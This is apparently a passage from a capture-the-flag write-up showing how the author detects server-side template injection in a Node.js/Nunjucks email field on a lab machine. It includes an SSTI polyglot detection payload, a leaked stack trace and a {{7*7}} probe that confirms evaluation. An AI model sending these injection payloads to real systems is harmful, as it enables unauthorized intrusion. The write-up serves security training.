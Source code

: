In Burpsuite, the following is the response when I submit the value `123@mail.com`:
```json
{"response":"You will receive updates on the following email address: 123@mail.com."}
```

It reflects our input, so I played around with this entry point by supplying different kinds of injection methods. Eventually, I triggered an error when I try to inject with **SSTI**.

Here is the payload that triggered the error, referenced from [here](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#detection). I've added a `\` to escape the `"` character in the json request.
```
{"email":"${{<%[%'\"}}%\."}
                   ^
                  Here
```

Response:
```html
<!DOCTYPE html>
<html lang="en">
<head>
<meta charset="utf-8">
<title>Error</title>
</head>
<body>
<pre>SyntaxError: Unexpected token . in JSON at position 24<br> &nbsp; &nbsp;at JSON.parse (&lt;anonymous&gt;)<br> &nbsp; &nbsp;at parse (/var/www/store.nunchucks/node_modules/body-parser/lib/types/json.js:89:19)<br> &nbsp; &nbsp;at /var/www/store.nunchucks/node_modules/body-parser/lib/read.js:121:18<br> &nbsp; &nbsp;at invokeCallback (/var/www/store.nunchucks/node_modules/raw-body/index.js:224:16)<br> &nbsp; &nbsp;at done (/var/www/store.nunchucks/node_modules/raw-body/index.js:213:7)<br> &nbsp; &nbsp;at IncomingMessage.onEnd (/var/www/store.nunchucks/node_modules/raw-body/index.js:273:7)<br> &nbsp; &nbsp;at IncomingMessage.emit (events.js:203:15)<br> &nbsp; &nbsp;at endReadableNT (_stream_readable.js:1145:12)<br> &nbsp; &nbsp;at process._tickCallback (internal/process/next_tick.js:63:19)</pre>
</body>
</html>

```

From the error message, we can easily see the word `node_modules`, which I assume the server is running in **NodeJS**.

Then I searched for payloads for **NodeJS**. Eventually, the following payload worked, referenced from [here](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#nunjucks).
```json
{"email":"{{7*7}}"}
```

Response:
```json
{"response":"You will receive updates on the following email address: 49."}
```

### This server runs on **NUNJUCKS** (NodeJS)
